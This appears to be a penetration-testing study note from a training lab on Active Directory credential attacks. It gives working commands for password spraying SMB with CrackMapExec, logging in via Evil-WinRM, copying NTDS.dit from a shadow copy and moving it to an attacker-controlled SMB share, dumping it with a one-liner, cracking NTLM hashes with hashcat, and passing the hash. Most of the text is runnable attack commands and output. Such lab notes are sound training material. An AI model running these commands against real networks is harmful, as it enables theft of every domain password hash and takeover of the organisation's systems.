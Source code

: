 
When a Windows system joins a domain, it will send all authentication requests to the DC before allowing a user to log on. SAM authentication is still possible by specifying the hostname followed by the username: `WS01/Username`

### CrackMapExec AD Dictionary Attacks

Use this [tool](https://github.com/urbanadventurer/username-anarchy) to generate potential usernames against a list of known users

###### Username Anarchy Example Usage
```go
./username-anarchy -i /home/ltnbob/names.txt 
```

###### Launching CrackMapExec

Using the name(s) found we then use a wordlist of known passwords to attack SMB

```go
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

If authentication is successful, we will attempt to capture the NTDS.dit file from the DC

### Capturing NTDS.dit

>[! Note]  
>NT Directory Services . directory information tree
> Directory service used to find and organize network resources.
> Stored at the below location:
>>	%systemroot%/ntds
> It is the primary database file associated with AD and contains all domain usernames, password hashes, etc.

#### Connecting to a Domain Controller via Evil-WinRM

> [!hint] Connect with the bwilliamson credentials
```go
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```


Once on the box check for privileges such as local admin rights etc. This is important because to copy the NTDS.dit file, you will need local admin or Domain Admin rights:
```go
net localgroup
```

From the user output, this user has domain admin and admin rights. 

#### Creating a shadow copy of C:

>[! hint]
> - Use vssadmin to create a volume shadow copy of the C: drive
> - NTDS is stored on the C: drive by default, but destination may be different

```go
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```


#### Copying NTDS.dit form the VSS

Copy the NTDS.dit file from the shadow copy of C: to another location on the drive:
```go
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

>[! hint ] Create Share on Attack Host
> To move the NTDS.dit file, use the [[Attacking SAM#Syntax for smbserver.py]] technique

#### Transferring NTDS.dit to Attack Host

```go
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### CrackMapExec One-liner

The below will execute all steps from above:
```go
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Create a file containing all the hashes to crack or do it individually

```go
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### PtH via Evil-WinRM

We could have  PtH with evil-winrm
```go
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

